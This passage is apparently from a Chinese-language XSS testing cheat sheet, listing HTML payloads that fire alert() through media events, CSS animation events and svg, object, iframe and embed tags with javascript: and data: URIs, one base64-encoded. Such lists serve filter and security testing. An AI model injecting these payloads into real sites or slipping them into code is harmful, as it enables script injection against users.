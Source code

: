 使用样例：

```
&lt;video autoplay onloadstart="alert()" src=x&gt;&lt;/video&gt;

&lt;video autoplay controls onplay="alert()"&gt;&lt;source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"&gt;&lt;/video&gt;

&lt;video controls onloadeddata="alert()"&gt;&lt;source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"&gt;&lt;/video&gt;

&lt;video controls onloadedmetadata="alert()"&gt;&lt;source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"&gt;&lt;/video&gt;

&lt;video controls onloadstart="alert()"&gt;&lt;source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"&gt;&lt;/video&gt;

&lt;video controls onloadstart="alert()"&gt;&lt;source src=x&gt;&lt;/video&gt;

&lt;video controls oncanplay="alert()"&gt;&lt;source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"&gt;&lt;/video&gt;

&lt;audio autoplay controls onplay="alert()"&gt;&lt;source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"&gt;&lt;/audio&gt;

&lt;audio autoplay controls onplaying="alert()"&gt;&lt;source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"&gt;&lt;/audio&gt;
```



## 基于CSS的事件

不幸的是，基于CSS来实现XSS现在已经越来越难了，我尝试过的所有向量目前都只能在非常旧的浏览器上工作。因此，下面介绍的是基于CSS来触发XSS的情况。

下面的例子使用的是style标签来为动画的开始和结束设置关键帧：

```
&lt;style&gt;@keyframes x `{``}`&lt;/style&gt;

&lt;p style="animation: x;" onanimationstart="alert()"&gt;XSS&lt;/p&gt;

&lt;p style="animation: x;" onanimationend="alert()"&gt;XSS&lt;/p&gt;
```



## 古怪的XSS向量

下面给出的是一些比较“奇葩”的XSS测试向量，这些测试向量很少见：

```
&lt;svg&gt;&lt;animate onbegin=alert() attributeName=x&gt;&lt;/svg&gt;

&lt;object data="data:text/html,&lt;script&gt;alert(5)&lt;/script&gt;"&gt;

&lt;iframe srcdoc="&lt;svg onload=alert(4);&gt;"&gt;

&lt;object data=javascript:alert(3)&gt;

&lt;iframe src=javascript:alert(2)&gt;

&lt;embed src=javascript:alert(1)&gt;

&lt;embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+" type="image/svg+xml" AllowScriptAccess="always"&gt;&lt;/embed&gt;

```